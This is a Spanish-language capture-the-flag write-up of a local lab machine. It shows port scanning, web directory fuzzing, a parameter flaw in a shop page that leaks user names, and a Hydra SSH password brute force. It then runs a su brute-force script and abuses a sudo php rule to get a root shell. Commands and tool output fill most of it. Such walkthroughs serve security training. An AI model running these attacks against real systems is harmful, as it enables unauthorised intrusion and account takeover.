 # Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 3000 172.17.0.2 -oN nmap
```
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-24 21:59 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 03:cf:72:54:de:54:ae:cd:2a:16:58:6b:8a:f5:52:dc (ECDSA)
|_  256 13:bb:c2:12:f5:97:30:a1:49:c7:f9:d0:ba:d0:5e:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds
```
2 servicios expuestos `ssh` y `http`, comienzo chequeando el servicio web

![image](https://github.com/user-attachments/assets/ddc24001-798b-433b-8557-0a64643b756c)

me consigo con la plantilla de apache, fuzzeo la web

```ruby
feroxbuster -u 'http://172.17.0.2' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -s 200,301,302 -x txt,php,bak,db,py,html,js,jpg,png,git,sh -t 200 --random-agent --no-state -d 5
```
```bash
                                                                                                                                                                          
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ [200, 301, 302]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png, git, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 5
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        9l       28w      307c http://172.17.0.2/shop => http://172.17.0.2/shop/
200      GET      368l      933w    10701c http://172.17.0.2/index.html
200      GET       24l      127w    10359c http://172.17.0.2/icons/openlogo-75.png
200      GET      368l      933w    10701c http://172.17.0.2/
200      GET     1116l     6033w   478553c http://172.17.0.2/shop/keyboard.jpg
200      GET       44l       90w     1112c http://172.17.0.2/shop/index.php
```

chequeo `http://172.17.0.2/shop/index.php`

![image](https://github.com/user-attachments/assets/84b3faa7-7dc6-4de0-b1d3-3ef6981a596f)

observo un mensaje debajo lo cual parece ser un parametro en el `../index.php` asi que testeo

![image](https://github.com/user-attachments/assets/87f2987a-6f0d-418d-8eec-92595223238a)

obtengo los user del sistema `manchi` & `seller` ahora puedo intentar un ataque de diccionario contra el servicio `ssh`

```ruby
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-24 22:08:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344403 login tries (l:1/p:14344403), ~896526 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-24 22:08:18
```
obtengo credenciales asi que accedo al sistema

# Escalada de Privilegios

### manchi

no consigo nada con este user para escalar por lo que pasare un script desde mi maquina atacante mas el diccionario rockyou para hacer un ataque de diccionario contra el user `seller`

script para realizar el ataque de diccionario

```ruby
scp Linux-Su-Force.sh manchi@172.17.0.2:/home/manchi
```
diccionario `rockyou`

```ruby
scp rockyou.txt manchi@172.17.0.2:/home/manchi
```

ahora realizo el ataque contra el user `seller`

```ruby
bash Linux-Su-Force.sh seller rockyou.txt
```

![image](https://github.com/user-attachments/assets/1003b4bd-fe5d-446e-856c-af59680e2960)

obtengo las credenciales y cambio de user

### seller

```ruby
sudo -l
```

![image](https://github.com/user-attachments/assets/c231b6f3-4a10-4fb8-a8c4-03dda1d0b12d)

busco el binario con `searchbins` (en mi maquina atacante y sino tienen instalado searchbins pueden buscar en GTFOBINS)

```ruby
searchbins -b php -f sudo
```

```bash
[+] Binary: php

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/php/#sudo]

	| CMD="/bin/sh"
	| sudo php -r "system('$CMD');"
```

procedo a la escalada

```ruby
sudo php -r "system('/bin/bash');"
```

![image](https://github.com/user-attachments/assets/c5bf57cc-3c45-48a8-aa4e-2153b1507adb)

### `ROOT`






